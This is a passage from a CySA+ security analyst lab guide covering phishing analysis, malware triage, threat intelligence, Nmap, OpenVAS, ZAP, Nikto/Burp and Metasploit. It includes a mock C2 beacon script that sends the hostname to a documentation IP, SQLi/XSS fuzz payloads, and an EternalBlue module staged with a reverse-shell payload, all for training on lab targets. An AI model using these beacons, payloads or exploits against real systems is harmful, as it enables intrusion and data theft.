- Anchor-text vs href mismatch (the second link **says** paypal.com but points to a raw IP)
- Punycode (`xn--...`) — paste suspicious URLs into a punycode decoder

#### Step 7 — Validate against a public service

For real triage, paste the full header into:

- **MXToolbox Header Analyzer** — https://mxtoolbox.com/EmailHeaders.aspx
- **Google Messageheader** — https://toolbox.googleapps.com/apps/messageheader/

Both will visualise the hop chain and parse the SPF/DKIM/DMARC results in seconds.

#### What You Learned

- How to query SPF, DKIM, and DMARC records with `dig`.
- How to read the `Authentication-Results` header to confirm forgery.
- How to trace the `Received` chain to the true sender IP.
- How to spot obfuscated / lookalike links in the email body.

---

### Lab 9 — Malware Triage with Hashing and VirusTotal

In this lab you will perform first-pass static malware triage: identify the file type, hash it, extract printable strings, write a YARA rule, and submit the hash to VirusTotal. These are exam-blueprint items under CySA+ 1.3 (File analysis — Hashing, Strings, VirusTotal, Sandboxing).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda + Web (VirusTotal)



#### Step 1 — Install tools

```bash
apt update && apt install -y binutils yara curl file
```

#### Step 2 — Create a benign "suspicious" sample

We will not download real malware. Instead, build an obviously fishy binary so the workflow is identical to the real triage process.

```bash
mkdir -p /tmp/lab9 && cd /tmp/lab9
cat > sample.sh <<'EOF'
#!/bin/sh
# C2 beacon
URL="http://203.0.113.50/c2/beacon"
KEY="aXAtbWFsd2FyZS1zZWNyZXQK"
curl -s -H "X-Key: $KEY" "$URL?id=$(hostname)" >/dev/null
EOF
chmod +x sample.sh
```

#### Step 3 — Identify the file type

```bash
file sample.sh
```

`file` reads the magic bytes — never trust the extension. A renamed `.jpg` that says `PE32 executable` is an immediate red flag.

#### Step 4 — Hash the sample (chain-of-custody first step)

```bash
md5sum sample.sh
sha1sum sample.sh
sha256sum sample.sh
```

Always hash with **SHA-256** for evidence; MD5/SHA-1 are still used by AV vendors but are cryptographically weak. Record the hash before doing anything else (Lab 21).

#### Step 5 — Extract strings

```bash
strings -n 6 sample.sh | head -20
```

Look for:

- URLs / IPs (C2 endpoints — `203.0.113.50` here)
- Base64-encoded blobs
- Suspicious API names (`VirtualAllocEx`, `WriteProcessMemory`)
- Compiler artefacts (PDB paths, Go build IDs)

Extract base64-looking strings:

```bash
strings -n 16 sample.sh | grep -E '^[A-Za-z0-9+/=]{16,}$'
echo aXAtbWFsd2FyZS1zZWNyZXQK | base64 -d
```

#### Step 6 — Write a YARA rule

YARA rules let you sweep an estate for any file matching the IOCs you just found.

```bash
cat > c2_beacon.yar <<'EOF'
rule lab9_c2_beacon
{
    meta:
        author = "cysa-lab"
        description = "Detects the lab9 C2 beacon"
    strings:
        $url = "203.0.113.50/c2/beacon"
        $key = "X-Key:"
        $cmd = "curl"
    condition:
        all of them
}
EOF

yara c2_beacon.yar sample.sh
yara c2_beacon.yar /etc       # sweep, will be quiet
```

The first command should report a match; the second should be silent.

#### Step 7 — Lookup the hash on VirusTotal (free web)

In your browser open:

**https://www.virustotal.com**

Paste the SHA-256 from Step 4 into the search box. For a real sample you would see how many of the 70+ AV engines flag it, the first-seen date, related samples, and community comments. (Our fabricated hash will be unknown — which is itself useful: an "unknown" hash on a finance server is more suspicious than an old, well-flagged one.)

Other free sandboxes for the same workflow:

- **Hybrid Analysis** — https://www.hybrid-analysis.com
- **Any.Run** — https://any.run
- **Joe Sandbox** — https://www.joesandbox.com

#### Step 8 — Decide: clean, suspicious, or malicious

A simple triage matrix:

| Static signal | Verdict | |---|---| | `file` says script + C2 URL + base64 + YARA hit | **Malicious** — escalate | | Strings benign, hash on VT clean, file type matches extension | **Clean** | | Anything in between | **Suspicious** — submit to sandbox (Lab references Joe / Cuckoo) |

#### What You Learned

- Identify file type with `file` (not extension).
- Generate MD5/SHA-1/SHA-256 hashes for evidence.
- Pull useful IOCs out of a binary with `strings`.
- Write and run a YARA rule against a sample and a directory sweep.
- Use VirusTotal and free sandboxes to enrich a hash.

---

### Lab 10 — Threat Intelligence and MITRE ATT&CK

In this lab you will enrich a suspicious IP with `whois`, AbuseIPDB, and Shodan, then map an observed behaviour to a MITRE ATT&CK technique using the free Navigator. You will also script a tiny SOAR-style automation. This covers CySA+ 1.4 (Threat actors, TTP, Collection methods, Threat-intelligence sharing, Active defense) and 1.5 (SOAR, automation, API).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda + Web (AbuseIPDB, ATT&CK Navigator)



#### Step 1 — Install tools

```bash
apt update && apt install -y whois curl jq
```

#### Step 2 — WHOIS lookup (Collection methods — Open source)

```bash
whois 8.8.8.8 | grep -Ei 'orgname|country|netrange|cidr'
whois example.com | grep -Ei 'registrar|country|creation|expir'
```

Things to look for in incident triage:

- Recently registered domain (`Creation Date` < 7 days) is highly suspicious.
- Bullet-proof / privacy-protected registrar.
- Country mismatch versus the user base.

#### Step 3 — AbuseIPDB API enrichment

AbuseIPDB gives an abuse-confidence score 0–100 for any IP. Sign up free at https://www.abuseipdb.com/account/api — paste your key when prompted, or skip with a dry-run:

```bash
read -p "AbuseIPDB API key (or press Enter to skip): " ABUSE_KEY
if [ -n "$ABUSE_KEY" ]; then
  curl -s -G https://api.abuseipdb.com/api/v2/check \
    --data-urlencode "ipAddress=185.220.101.45" \
    -H "Key: $ABUSE_KEY" -H "Accept: application/json" | jq
fi
```

`abuseConfidenceScore` ≥ 75 is the classic "block now" threshold. `usageType=hosting` + high score is a typical scanner/C2.

#### Step 4 — Build a small enrichment script (SOAR primitive)

```bash
cat > /tmp/enrich.sh <<'EOF'
#!/bin/sh
IP="$1"
echo "=== Enrichment for $IP ==="
echo "[whois country]"; whois "$IP" 2>/dev/null | grep -i country | head -1
echo "[reverse DNS]";   dig +short -x "$IP" || echo "(none)"
echo "[port:80 HTTP banner]"
curl -m 5 -s -o /dev/null -w "%{http_code} %{remote_ip}\n" "http://$IP" 2>/dev/null
EOF
chmod +x /tmp/enrich.sh
/tmp/enrich.sh 8.8.8.8
```

This is a SOAR playbook in miniature: one IOC in, multiple sources queried, structured output ready to feed a ticket.

#### Step 5 — Map a behaviour to MITRE ATT&CK

Open the **MITRE ATT&CK Navigator** in your browser: **https://mitre-attack.github.io/attack-navigator/**

Suppose your SIEM detected: *"PowerShell downloaded a remote script and ran it in memory."*

1. In the search box type `Ingress Tool Transfer` → technique **T1105**.
2. Type `PowerShell` → technique **T1059.001** (Command and Scripting Interpreter: PowerShell).
3. Type `Process Injection` → technique **T1055**.

Each technique page lists:

- Detection guidance
- Mitigations
- Procedure examples (Real APT groups that use it — e.g. APT29)
- Data sources to monitor

This is your threat-hunting hypothesis library.

#### Step 6 — Recognise threat-actor categories (CySA+ 1.4 vocab)

| Category | Motivation | Example artefact | |---|---|---| | APT (nation-state) | Espionage, long-dwell | Custom tooling, supply-chain compromise | | Organised crime | Money | Ransomware, banking trojans | | Hacktivist | Ideology | Defacements, doxing | | Script kiddie | Notoriety | Off-the-shelf tools, loud scanning | | Insider | Various | Bulk data access, after-hours login | | Supply chain | Indirect | Trojanised dependency |

Match an IOC to the most likely actor before you decide containment urgency.

#### Step 7 — Threat-intelligence sharing formats

```bash
echo "203.0.113.99,malicious,c2,2026-05-13" >> /tmp/iocs.csv
echo '{"indicator":"203.0.113.99","type":"ipv4-addr","tlp":"amber"}' | jq
```

Real-world feeds use **STIX/TAXII**; the indicators travel between CERT, CSIRT, ISACs, and commercial paid feeds. Free public sources:

- abuse.ch (URLhaus, MalwareBazaar, ThreatFox)
- AlienVault OTX
- Spamhaus DROP list
- CISA AIS

#### Step 8 — Active defense and honeypots

The defensive end of threat intelligence is **deception**. Spin up a quick fake SSH listener:

```bash
apt install -y netcat-openbsd
nc -lk -p 2222 -e /bin/false &
ss -ltnp | grep 2222
kill %1
```

A real honeypot (e.g. Cowrie) logs every credential the attacker types — feeding back into your IOC pipeline.

#### What You Learned

- Enrich an IP with WHOIS, AbuseIPDB, and reverse DNS.
- Build a one-shot SOAR enrichment script.
- Map observed behaviour to MITRE ATT&CK techniques.
- Categorise threat actors and recognise the major sharing feeds and formats.

---

## Topic 2: Vulnerability Management
*CompTIA CySA+ CS0-003 exam weighting: 30%. Hands-on Labs 11–19.*

### Lab 11 — Asset Discovery with Nmap

In this lab you will use Nmap as both an asset-discovery tool and a passive/active fingerprinter. Asset inventory is the first step of every vulnerability management program — you cannot patch what you do not know exists. This maps to CySA+ 2.1 (Asset discovery — Map scans, Device fingerprinting; Internal vs external scanning; Active vs passive).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install Nmap

```bash
apt update && apt install -y nmap
```

#### Step 2 — Host discovery (a "map scan")

A map scan answers "what is alive on this subnet?" without a port scan.

```bash
nmap -sn 127.0.0.0/29
nmap -sn -PE -PS22,80,443 scanme.nmap.org
```

- `-sn` — no port scan, ping sweep only
- `-PE` — ICMP echo
- `-PS22,80,443` — TCP SYN ping on those ports (useful when ICMP is blocked)

#### Step 3 — Internal vs external scanning

Run the same scan against:

- **Internal**: `127.0.0.1` (anything in your private space)
- **External**: `scanme.nmap.org` (a host the Nmap project lets you probe)

Notice the difference: internal scans see open management ports (22, 5985, 3389), external scans usually see only web/edge services. CySA+ tests you on this distinction — vulnerability scope is very different for each.

#### Step 4 — Active service / version detection (fingerprinting)

```bash
nmap -sV -Pn -T4 scanme.nmap.org -p 22,80,443
```

`-sV` probes each open port to identify the service banner. The output identifies SSH version, web server, etc. — feeding the CVE matching step later.

#### Step 5 — OS fingerprinting (active)

```bash
nmap -O -Pn scanme.nmap.org
```

`-O` sends crafted probes and matches TCP/IP stack quirks against its OS database. Note: requires root inside the VM (Killercoda gives root).

#### Step 6 — Passive fingerprinting (alternative)

Active scans are noisy and can trip IDS rules. Passive fingerprinting sniffs existing traffic instead:

```bash
apt install -y p0f tcpdump
p0f -i any -o /tmp/p0f.log &
curl -s https://example.com > /dev/null
sleep 2
kill %1
grep -m5 . /tmp/p0f.log
```

`p0f` infers the remote OS from TCP options without sending a packet — exam-blueprint **passive** scanning.

#### Step 7 — Credentialed vs non-credentialed (concept)

Nmap is non-credentialed. To get a credentialed view you would use:

- `nmap --script ssh-auth-methods` (limited)
- A scanner like **OpenVAS** or **Nessus** with SSH/SMB credentials (see Lab 12)

Credentialed scans find missing patches, weak configs, and local CVEs invisible to network probes. Non-credentialed scans see only what an attacker on the wire would see.

#### Step 8 — Output formats for the inventory pipeline

```bash
nmap -sV -Pn scanme.nmap.org -p 80,443 -oA /tmp/scan_inventory
ls /tmp/scan_inventory.*
```

`-oA` saves three formats simultaneously:

- `.nmap` — human-readable
- `.gnmap` — grep-friendly
- `.xml` — machine-readable for SIEM / CMDB ingestion

Parse the XML:

```bash
apt install -y libxml2-utils
xmllint --xpath '//host/address/@addr | //port/service/@product' /tmp/scan_inventory.xml | head
```

#### Step 9 — Schedule a recurring scan (Special considerations)

CySA+ 2.1 lists "Scheduling, Operations, Performance, Sensitivity, Segmentation, Regulatory" as scan considerations. A simple cron entry:

```bash
echo "0 2 * * * root nmap -sn 10.0.0.0/24 -oG /var/log/asset-inventory-\$(date +\\%F).gnmap" > /etc/cron.d/asset_inventory
cat /etc/cron.d/asset_inventory
```

Scan at 02:00 — outside business hours to respect **operations** and **performance**.

#### What You Learned

- Run a ping-sweep map scan and version/OS fingerprint with Nmap.
- The difference between active (Nmap) and passive (p0f) fingerprinting.
- Internal vs external scan scope.
- How to output Nmap data for pipeline consumption and schedule it.

---

### Lab 12 — Vulnerability Scanning with OpenVAS (Greenbone CE)

In this lab you will run a full credentialed vulnerability scan with **OpenVAS / Greenbone Community Edition**, the free alternative to Nessus and Qualys. This maps directly to CySA+ 2.2 (Vulnerability scanners — Nessus, OpenVAS) and 2.1 (Agent vs agentless, Credentialed vs non-credentialed, Industry frameworks).

> **Heads up:** Greenbone CE downloads a multi-GB feed and runs several services. It is too heavy for Killercoda. Run it on your own laptop in **VirtualBox or VMware** instead.

**Environment:** Local VM — Greenbone Community Edition (VirtualBox/VMware)





#### Step 1 — Download the free Greenbone CE virtual appliance

Browser: **https://www.greenbone.net/en/community-edition/**

Pick **Greenbone Community Edition (GCE) Virtual Appliance**. Alternative paths:

- Docker compose: https://greenbone.github.io/docs/latest/22.4/container/index.html
- Kali Linux: `sudo apt install gvm` + `sudo gvm-setup`

#### Step 2 — Boot, set admin password, sign in

Import the OVA into VirtualBox, give it 4 GB RAM and a bridged adapter. On first boot:

1. Set the admin password at the console.
2. Wait for the feed sync to finish (`gvm-check-setup` shows OK).
3. Open `https://<vm-ip>:9392` in your browser — accept the self-signed cert.

#### Step 3 — Add a target

In the Greenbone Security Assistant web UI:

1. **Configuration → Targets → New Target**
2. Name: `lab-target`
3. Hosts: `192.168.56.0/24` (or a single test IP)
4. Port List: **All IANA assigned TCP**
5. Save.

This is your scope. Always confirm written authorisation before scanning anything you do not own.

#### Step 4 — (Optional) Add credentials — credentialed scan

1. **Configuration → Credentials → New Credential**
2. Type: **Username + SSH key** (or password)
3. Provide a low-privileged service account on the target.

A credentialed scan can read patch level, kernel version, and config files — finding 5–10× the issues of a network-only scan.

#### Step 5 — Create and run a scan task

1. **Scans → Tasks → New Task**
2. Name: `lab-scan`
3. Scan target: `lab-target`
4. Scan config: **Full and fast** (or **Full and fast ultimate** for credentialed)
5. SSH/SMB credentials: select the one from Step 4 (if any)
6. Save, then click the green Start arrow.

Scan length depends on host count and scan config — a single VM completes in 10–30 min.

#### Step 6 — Read the report

When the task says **Done**, click into the report:

- **Severity** bar — High / Medium / Low / Log
- **CVSS** column — base score (Lab 16 covers scoring in depth)
- **Solution** — patch ID, config change, or workaround
- **CVEs** — clickable to NVD

Export as **PDF** or **CSV** for inclusion in your vulnerability report (Lab 26).

#### Step 7 — Agent vs agentless distinction (CySA+ 2.1)

| | Agentless (what you just did) | Agent-based | |---|---|---| | Install on target | No | Yes (Wazuh, OSSEC, vendor) | | Network coverage | Reachable hosts only | Anywhere agent runs | | Offline / cloud hosts | Misses them | Catches them | | Latency to findings | Per scan window | Continuous |

Wazuh (free, Lab 18 references it) provides an agent-based alternative.

#### Step 8 — Special considerations checklist

Before scheduling production scans, satisfy CySA+ 2.1's six items:

- **Scheduling** — outside business hours
- **Operations** — avoid printers, ICS/SCADA, brittle legacy hosts
- **Performance** — throttle scan threads
- **Sensitivity** — exclude PCI / PHI scopes you cannot legally touch
- **Segmentation** — scan from inside the segment, not through firewalls
- **Regulatory** — PCI DSS Req. 11.2 mandates quarterly external scans

#### Step 9 — Industry frameworks crosswalk

Greenbone scan policies map to:

- **CIS Benchmarks** (host hardening)
- **PCI DSS** (network scans for cardholder environments)
- **ISO 27001 A.12.6** (technical vulnerability management)
- **OWASP** (web targets)

The right "scan config" depends on which framework you must demonstrate compliance with.

#### What You Learned

- Stand up Greenbone CE / OpenVAS as a free Nessus alternative.
- Create a target, add credentials, run a scan, and read the report.
- The agent-vs-agentless trade-offs.
- How scan configurations align to PCI, CIS, ISO, and OWASP frameworks.

---

### Lab 13 — Web App Scanning with OWASP ZAP

In this lab you will run **OWASP ZAP** against the deliberately vulnerable **DVWA** to surface XSS, SQLi, and CSRF findings. This is exam-blueprint CySA+ 2.2 (Web application scanners — ZAP, Burp, Arachni, Nikto).

Run inside the Killercoda playground (Docker is available there): https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install ZAP CLI and Docker

```bash
apt update && apt install -y zaproxy docker.io
systemctl start docker
```

#### Step 2 — Start the DVWA vulnerable target

```bash
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
sleep 10
curl -s -o /dev/null -w "%{http_code}\n" http://127.0.0.1:8080/login.php
```

Browse to `http://127.0.0.1:8080` once with credentials `admin / password`, then **Setup → Create / Reset Database**.

#### Step 3 — Run a ZAP baseline scan (passive, fast)

```bash
zap-baseline.py -t http://127.0.0.1:8080 -r /tmp/zap_baseline.html || true
ls -lh /tmp/zap_baseline.html
```

A baseline scan only **observes** traffic — it will not break the app. Look for:

- **WARN-NEW** rows — newly discovered issues
- Missing security headers (CSP, X-Frame-Options, HSTS)
- Cookies without `Secure`/`HttpOnly`

#### Step 4 — Run a full active scan

```bash
zap-full-scan.py -t http://127.0.0.1:8080 -r /tmp/zap_full.html || true
```

The full scan actively injects payloads and is what you would run in a staging environment. Open `/tmp/zap_full.html` (download via Killercoda) — you should see DVWA's intentional XSS, SQLi, and command-injection flaws flagged.

#### Step 5 — Map ZAP alerts to OWASP Top 10

Major ZAP alert classes:

| ZAP alert | OWASP Top 10 | CySA+ 2.4 | |---|---|---| | SQL Injection | A03 Injection | Injection flaws | | Cross-Site Scripting | A03 Injection | XSS (Reflected/Persistent) | | Path Traversal | A01 Broken Access Control | Directory traversal | | CSRF | A01 Broken Access Control | Cross-site request forgery | | Vulnerable JS lib | A06 Vulnerable Components | End-of-life/outdated | | Server misconfig | A05 Security Misconfig | Security misconfiguration |

#### Step 6 — Authenticated scan (deep coverage)

ZAP can log in for you and crawl behind auth. From the ZAP **desktop GUI** (or `-z` configs in CLI) you set:

1. A context with the login URL and form fields
2. A user with creds `admin / password`
3. A logged-in / logged-out indicator regex

Authenticated scans typically find 3–5× more issues than anonymous scans.

#### Step 7 — Save evidence and tear down

```bash
sha256sum /tmp/zap_full.html
docker stop dvwa && docker rm dvwa
```

Always hash report files; they become evidence for the remediation team and auditors.

#### What You Learned

- Run a passive and an active OWASP ZAP scan against DVWA.
- Read ZAP HTML reports and map findings to OWASP Top 10.
- The difference between baseline (safe) and full (intrusive) scans.
- How authenticated scans surface deeper findings.

---

### Lab 14 — Web Recon with Nikto and Burp Suite

In this lab you will perform web-server reconnaissance with **Nikto** and intercept/replay requests with **Burp Suite Community**. Together they cover CySA+ 2.2 (Web application scanners — Burp Suite, Nikto) and reinforce 2.4 (Recommended controls).

Run Nikto in the Killercoda playground; run Burp Suite Community on your own laptop.

**Environment:** Killercoda + Local (Burp Suite Community)

#### Step 1 — Install Nikto and start a target

```bash
apt update && apt install -y nikto docker.io
systemctl start docker
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
sleep 10
```

#### Step 2 — Run a Nikto scan

```bash
nikto -h http://127.0.0.1:8080 -o /tmp/nikto.txt
head -40 /tmp/nikto.txt
```

Typical Nikto findings on DVWA:

- Outdated Apache version (CVE links)
- Backup files left in webroot (`config.bak`)
- Server signature disclosure
- TRACE method enabled (XST risk)
- Default admin interfaces (`/phpmyadmin/`)

#### Step 3 — Tune Nikto with plugins and tuning options

```bash
nikto -h http://127.0.0.1:8080 -Tuning 4 -Plugins "headers"
nikto -List-plugins | head -20
```

`-Tuning` numbers from the man page:

- 1: Interesting files
- 4: Injection (XSS, etc.)
- 6: Denial of service (use with caution)
- 9: SQL injection

#### Step 4 — Install Burp Suite Community on your own laptop

Download: **https://portswigger.net/burp/communitydownload**

(Windows / macOS / Linux). It is a Java GUI — install Java 17+ if missing.

#### Step 5 — Configure your browser to use Burp's proxy

1. Launch Burp → **Temporary project** → **Use Burp defaults**.
2. **Proxy → Proxy Settings** → confirm listener on `127.0.0.1:8080` (or change to 8081 to avoid clashing with DVWA).
3. In Firefox / Chrome, point HTTP and HTTPS proxy to `127.0.0.1:8081`.
4. Visit `http://burp` and install the Burp CA so HTTPS interception works.

#### Step 6 — Intercept and modify a request (the killer Burp workflow)

1. **Proxy → Intercept ON**.
2. Browse to DVWA's login page and submit `admin / wrong`.
3. The captured request appears in Burp. **Right-click → Send to Repeater**.
4. In Repeater change the password to `password` and click **Send**.
5. You see the auth response without retyping anything.

This intercept/modify/replay loop is how analysts manually verify XSS, SQLi, IDOR, and CSRF findings flagged by automated scanners.

#### Step 7 — Send to Intruder for fuzzing (Community is rate-limited but functional)

1. **Right-click a request → Send to Intruder.**
2. Mark a parameter (e.g. the `id` of a product page) as the **payload position**.
3. **Payloads → Simple list** → paste `1, 2, 3, ' OR 1=1--, <script>alert(1)</script>`.
4. **Start attack** — Burp replays each payload and shows length/status differences.

Differences in response length are the classic signal of a successful injection.

#### Step 8 — Combine Nikto + Burp into a single workflow

| Phase | Tool | |---|---| | Quick automated baseline | Nikto | | Deep crawl + scanner | OWASP ZAP (Lab 13) | | Manual verification & exploit | Burp Suite Repeater / Intruder | | Report writeup | Markdown → Lab 26 |

#### Step 9 — Tear down

```bash
docker stop dvwa && docker rm dvwa
```

#### What You Learned

- Run a Nikto scan and read its prefixed OSVDB/CVE references.
- Install Burp Suite Community and route browser traffic through it.
- Intercept, modify, and replay HTTP requests with Repeater.
- Fuzz a parameter with Intruder and interpret length/status diff.

---

### Lab 15 — Metasploit Framework Basics

In this lab you will use the **Metasploit Framework (MSF)** as an analyst — not to break systems but to **validate** that a vulnerability scanner finding is actually exploitable, which is the heart of CySA+ 2.3 (Validation — true positive/negative, Exploitability/weaponization) and 2.2 (Multipurpose — MSF, Nmap, Recon-ng).

> **Ethics:** Only run exploits against systems you own or have explicit written permission to test. The free **Metasploitable 2/3** VM (https://github.com/rapid7/metasploitable3) is the standard legal target.

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install Metasploit Framework

```bash
apt update && apt install -y metasploit-framework
msfdb init
```

`msfdb init` sets up the Postgres backend so search and host tracking work.

#### Step 2 — Launch the console

```bash
msfconsole -q
```

`-q` skips the banner. You are now at the `msf6 >` prompt.

#### Step 3 — Search for an exploit

Imagine your OpenVAS report flagged **EternalBlue (CVE-2017-0144)** on a Windows host. In `msfconsole`:

```
msf6 > search eternalblue
msf6 > info exploit/windows/smb/ms17_010_eternalblue
```

`search` shows every matching module. `info` displays required options, payloads, targets, and references — including the CVE.

#### Step 4 — Configure and stage (do not run — analyst view)

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 10.10.10.10
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 10.10.10.99
msf6 exploit(...) > check
```

`check` is the safe analyst command: it probes the target and reports vulnerable / not vulnerable **without** firing the exploit. This is how you turn a scanner "high" into a confirmed true positive.

To actually exploit (only on Metasploitable), you would `run` — but the validation is what CySA+ tests.

#### Step 5 — Use an auxiliary scanner instead of an exploit

Many MSF modules are non-destructive scanners:

```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(smb_ms17_010) > set RHOSTS 192.168.56.0/24
msf6 auxiliary(smb_ms17_010) > run
```

This sweeps a /24 and reports which hosts are vulnerable — perfect for verifying scanner findings at scale.

#### Step 6 — Browse useful module families

```
msf6 > search type:auxiliary scanner
msf6 > search type:post platform:windows
msf6 > search cve:2024
```

| Family | Purpose | |---|---| | `exploit/` | Active code-execution modules | | `auxiliary/scanner/` | Vulnerability / version checks | | `auxiliary/dos/` | Denial-of-service tests (rarely run in prod) | | `post/` | Post-exploitation (only after a session exists) | | `payload/` | The shellcode delivered by an exploit | | `encoder/` | AV-bypass transformations |

#### Step 7 — Workspaces and reporting

```
msf6 > workspace -a customer_x
msf6 > db_nmap -sV 192.168.56.0/24
msf6 > hosts
msf6 > services
msf6 > vulns
```

`db_nmap` runs Nmap and stores results in the Postgres DB. `hosts`, `services`, and `vulns` query that DB — ready to export for the report (Lab 26):

```
msf6 > db_export -f xml /tmp/msf_report.xml
```

#### Step 8 — Map MSF activity to CySA+ exploitability/weaponization

| Stage | MSF feature | CySA+ 2.3 vocab | |---|---|---| | Will it run? | `check` command | Validation — true positive | | Public exploit exists | module in `exploit/` tree | Weaponization | | Reliability | `Rank: Excellent/Good` | Exploitability | | Real-world abuse | references in `info` | Asset value × likelihood |

#### Step 9 — Exit cleanly

```
msf6 > exit
```

#### What You Learned

- Install Metasploit and search for an exploit by name or CVE.
- Configure a module, set RHOST/LHOST/PAYLOAD, and run a non-destructive `check`.
- Use auxiliary scanners to validate scanner findings at scale.
- Persist findings via the MSF database and export them.

---

### Lab 16 — CVSS Scoring and Prioritization

In this lab you will score three vulnerabilities with the FIRST CVSS v3.1 calculator, apply environmental context, and produce a prioritised remediation list. This is exam-blueprint CySA+ 2.3 (CVSS interpretation, Context awareness, Asset value, Zero-day).

The work is done in the browser plus a small CSV — no shell required.

**Environment:** Web — FIRST CVSS v3.1 Calculator

#### Step 1 — Open the CVSS v3.1 calculator

Browser: **https://www.first.org/cvss/calculator/3.1**

The calculator has three sections:

1. **Base** — intrinsic properties of the vuln
2. **Temporal** — exploit code maturity, remediation level
3. **Environmental** — your context (asset value, mitigations)

#### Step 2 — Memorise the eight Base metrics

| Metric | Options | What it means | |---|---|---| | **AV** Attack Vector | N / A / L / P | Network / Adjacent / Local / Physical | | **AC** Attack Complexity | L / H | Low / High | | **PR** Privileges Required | N / L / H | None / Low / High | | **UI** User Interaction | N / R | None / Required | | **S** Scope | U / C | Unchanged / Changed | | **C** Confidentiality | N / L / H | impact | | **I** Integrity | N / L / H | impact | | **A** Availability | N / L / H | impact |

These are CySA+ 2.3's bullet points: Attack vectors, Attack complexity, Privileges required, User interaction, Scope, Impact (C/I/A).

#### Step 3 — Score Vuln #1 — Unauthenticated RCE on a public web server

Settings: `AV:N / AC:L / PR:N / UI:N / S:U / C:H / I:H / A:H`

Base score: **9.8 Critical**

Vector string copied from the calculator:

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

#### Step 4 — Score Vuln #2 — Local privilege escalation on a workstation

Settings: `AV:L / AC:L / PR:L / UI:N / S:U / C:H / I:H / A:H`

Base score: **7.8 High**

#### Step 5 — Score Vuln #3 — Reflected XSS that requires a click

Settings: `AV:N / AC:L / PR:N / UI:R / S:C / C:L / I:L / A:N`

Base score: **6.1 Medium**

#### Step 6 — Apply Environmental metrics (context awareness)

CySA+ 2.3 calls out **internal / external / isolated** and **asset value**. The Environmental section lets you push or pull the score:

